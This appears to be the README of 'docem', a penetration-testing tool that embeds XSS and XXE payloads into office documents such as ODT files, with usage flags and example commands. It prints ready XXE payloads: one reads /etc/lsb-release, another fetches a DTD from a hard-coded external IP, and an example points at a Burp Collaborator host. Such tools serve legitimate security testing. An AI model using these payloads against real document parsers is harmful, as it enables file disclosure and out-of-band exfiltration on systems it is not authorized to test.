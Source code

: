 
```
_|_|_|                                                  
_|    _|    _|_|      _|_|_|    _|_|    _|_|_|  _|_|    
_|    _|  _|    _|  _|        _|_|_|_|  _|    _|    _|  
_|    _|  _|    _|  _|        _|        _|    _|    _|  
_|_|_|      _|_|      _|_|_|    _|_|_|  _|    _|    _|
```


**Disclaimer. Currently there are two tools: one for xss and one for xxe embedding - but that's only temporarily**


# ToDo

- Rewrite document_xss, cause it's terrible
	- [x] Stage 0. Working with template
		- [x] Prepare paths to all files in unpacked doc 
		- [x] First we find all files inside unpacked folder 
		- [x] Then we find all magic symbols 
	- [ ] Stage 1. Combie two tools in one
- [x] Read file with payloads
- [ ] Add flag to specify custom url to use in XXE
- [ ] Add flag to specify custom url to use in XSS
- [ ] Add ability to embed not only in xml but in unzip file also

# Tool

## Install 

```bash
pip3 install -r requirements.txt
```

## Usage docem

General 

```
python3 docem.py
```

- `-s` - path to a sample file
- `-pm` - payload mode
	- `per_document` - for every payload, embed payload in all places in all files and create new doc
	- `per_file` - for every payload, for every file inside a docuement, for all places inside file embed payload and create new doc
	- `per_place` - for every payload, for every place in every file, embed payload and create new doc
- `-pf` - payload file. Path to a file with payloads
- `-kt` - do not delete temp unpacked and modified folders
- `-h` - print help

Example 
```bash
./docem.py -s samples/xss_sample_0.odt -pf payloads/xss_tiny.txt -pm per_place
```


## Usage document.py

- `-s` - path to a sample file
- `-xu` - url to use in an external XXE
- `-xf` - file to use in an internal XXE
- `-kt` - do not delete temp unpacked and modified folders
- `-h` - print help


Example 

```bash
python3 document.py -s ../ODT/doc0.odt -xu http://123455.burpcollaborator.net
```


## Payloads

### XXE Payloads

**! Change IP/Domain address**

#### Internal XXE with file


```xml
<!DOCTYPE foo [<!ENTITY xxe_int_file SYSTEM "file:///etc/lsb-release">]>
```


`&xxe_int_file` - xxe parametr inside xml text

#### External XXE with file

```xml
<!DOCTYPE foo [<!ENTITY xxe_ext_file SYSTEM "http://138.197.217.227:5005/a.dtd/">]>
```


`&xxe_ext_file` - xxe parametr inside xml text

#### Internal paramter XXE with string

```
<!DOCTYPE foo [<!ENTITY % paramEntity "<!ENTITY xxe_param_string 'bar'>"> %paramEntity;>]
```


`&xxe_param_string` - xxe parametr inside xml text

